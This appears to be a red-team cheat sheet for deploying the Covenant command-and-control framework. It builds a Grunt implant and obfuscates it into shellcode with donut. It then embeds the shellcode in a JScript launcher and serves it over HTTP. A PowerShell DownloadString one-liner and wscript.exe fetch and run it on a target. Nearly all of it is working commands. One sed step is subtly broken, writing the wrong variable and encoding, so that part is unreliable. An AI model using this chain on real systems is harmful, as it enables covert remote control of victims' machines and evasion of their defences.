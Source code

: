 #### 1. About

- URL: `https://github.com/cobbr/Covenant`
- .NET C2 framework


#### 2. Build

From: `https://github.com/cobbr/Covenant/wiki/Installation-And-Startup`

```
# git clone --recurse-submodules https://github.com/cobbr/Covenant
# cd Covenant/Covenant
# docker build -t covenant .
```


#### 3. Run

```
# cd Covenant/Covenant
# docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -d -v `pwd`/Data:/app/Data covenant
```


#### 4. SSL Cert for HTTPs listener

```
# site='test.local'
# out='default.pem'
# openssl req \
-x509 -nodes -days 365 -sha512 \
-subj "/C=CH/ST=ZH/L=Zurich/CN=$site" \
-newkey rsa:4096 -keyout $out -out $out
# openssl pkcs12 -export -in $out -inkey $out -out default.pfx
```

- ConnectAddresses: <EXTERNAL_IP>
- ConnectPort: 443
- BindPort: 443
- BindAddress: 0.0.0.0


#### 5. Instrumentation

1. Launcher config

```
Launchers > Binary (ValidateCert: false, UseCertPinning: false)
Launchers > Binary > Code - save as GruntHTTP.cs
```

2. Compile .NET

```
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -out:grunt64.exe GruntHTTP.cs
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -platform:x86 -out:grunt32.exe GruntHTTP.cs
```

3. Use `donut` (`https://github.com/TheWover/donut/releases`) for binary obfuscation

```
PS>.\donut.exe -a2 -f1 'grunt64.exe' -o grunt64.bin
PS>.\donut.exe -a2 -f1 'grunt32.exe' -o grunt32.bin
```

4. WScript example

```
PS>powershell -c "(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js')" > x.js
PS>wscript.exe x.js
```

5. Place encoded Grunt shell-code into launcher JS script for `wscript`

```
# wget https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js

# l32=`grep -n '^var encodedPayload32' ShellcodeToJScript.js | awk -F ':' '{print $1}'`
# l64=`grep -n '^var encodedPayload64' ShellcodeToJScript.js | awk -F ':' '{print $1}'`

# p32=`base32 -w0 grunt32.bin`
# p64=`base64 -w0 grunt64.bin`

# sed -i --expression $l32"s@.*@var encodedPayload64=\"$p32\";@" ShellcodeToJScript.js
# sed -i --expression $l64"s@.*@var encodedPayload64=\"$p64\";@" ShellcodeToJScript.js
```

6. Serve/download and run the JS file

```
# python3 -m http.server 9999

>powershell -c "(New-Object System.Net.WebClient).DownloadString('http://172.16.103.128:9999/ShellcodeToJScript.js')" > %temp%\x.js
>wscript.exe %temp%\x.js
```
